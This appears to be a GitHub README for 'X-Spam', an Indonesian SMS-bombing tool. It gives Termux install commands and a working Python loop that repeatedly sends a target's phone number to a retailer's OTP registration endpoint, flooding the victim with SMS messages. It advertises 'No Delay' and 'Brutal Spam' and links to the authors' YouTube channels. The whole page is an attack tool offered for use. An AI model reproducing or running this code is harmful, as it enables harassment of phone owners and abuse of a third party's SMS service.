 ## X-Spam
Brutal Spammer By Ammar Executed X MR_DARK X Khoirul Anam

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python python2
  git clone https://github.com/AmmarrBN/X-Spm
  cd X-Spm
  bash install.sh
  python king.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  import os,sys,time,requests,json
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### KELEBIHAN 📍
| Kelebihan | Check |
|--------|--------|
| **No Delay** |[✔️](https://github.com/AmmarrBN) |
| **Brutal Spam** |[✔️](https://github.com/AmmarrBN) |
| **Simple** |[✔️](https://github.com/AmmarrBN) |
| **Subscribe** |[Here](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g) |
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  import os,sys,time,requests,json
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>


  ```bash
  Key : [ https://carapedi.id/tWhLaU ]
  ```


> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=MR_DARK&color=green)](https://youtube.com/channel/UCnti7B0HaFE0izlHKwZMn8A)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=MR_DARK&color=green)](https://youtube.com/channel/UCnti7B0HaFE0izlHKwZMn8A)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Khoirul%20Anam&color=green)](https://youtube.com/channel/UCBMHmolDFS8j3dT8iWtdFeg)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Khoirul%20Anam&color=green)](https://youtube.com/channel/UCBMHmolDFS8j3dT8iWtdFeg)
